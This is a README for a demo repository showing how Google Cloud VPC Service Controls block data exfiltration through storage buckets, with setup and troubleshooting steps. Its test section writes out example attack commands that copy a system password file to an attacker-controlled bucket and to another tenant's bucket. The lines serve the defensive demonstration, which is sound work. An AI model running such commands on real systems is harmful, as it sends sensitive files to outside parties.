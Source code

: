 # VPC Service Controls demo scripts

VPC Service Controls are an excellent tool to prevent data exfiltration and other attack chains.
This repo supports the blog describing this at ___.

In a nutshell, data exfiltration is easy via GCP Storage Buckets despite best parctices to lock down networking with aggressive network egress policy. 
In order for cloud resources like VMs or Functions to access GCP Storage (other services like Cloud SQL or BigQuery also apply) the network proxy
must whitelist GCPs public dns names for the given services. This means an attacker can create a GCP Storage Bucket and exfiltrate to their own Bucket.
VPC Service Controls solve exactly this problem.

## Requirements

The role running the scripts must have the following permissions:

*    roles/accesscontextmanager.policyAdmin
*    roles/resourcemanager.organizationViewer
*    roles/dns.admin
*    roles/compute.network.*
*    roles/billing.projectManager on the organization
*    roles/billing.user on the billing account

You must have a GCP Organization. Free accounts come with Projects only.
If you do not have one, create one according to [Creating and Managing Organizations](https://cloud.google.com/resource-manager/docs/creating-managing-organization).
We recommend the `G-Suite` path as it worked more smoothly than the `Cloud Identity`.

Beware that many services are currently incompatible with VPC Service Controls!
If your project uses these [listed services](https://cloud.google.com/vpc-service-controls/docs/supported-products) you
are in luck. Otherwise you may need to check back later, use separate projects for unsupported services or create access-levels.

## Tests
Let's start with what we are trying to prove. Our scripts support a multi-tenant scenario where a tenant can write to buckets in their own project and
a specific bucket in a project shared amongst all tenants.

The following approved bucket activities should succeed assuming we have ssh'd into a vm.
* Create a bucket in the tenant project
* Upload data to the tenant bucket
* Upload data to the tenant's bucket in the shared project
```
vm-in-tenant1-project> gsutil mb gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-shared-project-bucket --project $SHARED_PROJECT_ID --region $REGION
```

The following malicious exfiltration and tampering activities should fail
* Upload malicious data to another tenant's bucket in the shared project
* Exfiltrate data to a victim tenant bucket in the shared project
```
vm-in-tenant1-project> gsutil cp /etc/password gs://attacker-controlled-project-bucket
vm-in-tenant1-project> gsutil cp /etc/password gs://tenat2-shared-project-bucket
```

## Quickstart

```
git clone https://github.com/praetorian-code/vpc-service-controls.git
cd vpc-service-controls
cp .env-sample .env
./create_service_control_project.sh
```

Modify `.env` as needed. It will be ignored by git.

## Troubleshooting

Uncomment the `set -x` line at the top.
This script is not entirely idempotent so you may need to comment out lines on second runs or reset the $RAND, $FOLDER_RAND and $SHARED_RAND variables.
The most likely culprit for problems is not having the correct permissions. Find the line that fails and on the commandline run the following:

```
source .env
<paste and run the failing command>
```

## A more complete multi-tenant script.
The script `create_service_control_project.sh` demonstrates the VPC Service Controls for educational purposes.
A more complete version with some basic security services like configured Logging and Alerts for the malicious activity
is available in `create_service_control_project_full.sh` (coming soon).


# Design

Why bash scripts? We thought it is most instructive to run commands in an interactive way by pasting individual `gcloud` commands.

Ansible was considered, but it doesn't have support for many of the project/organization commands so it would be a lot of shell commands.

We hope to add Terraform modules, Deployment Manager templates and an Ansible playbooks for running the tests in time.  Contributions welcome!

## Terraform

# https://www.terraform.io/docs/providers/google/r/dns_managed_zone.html
# roles/dns.admin

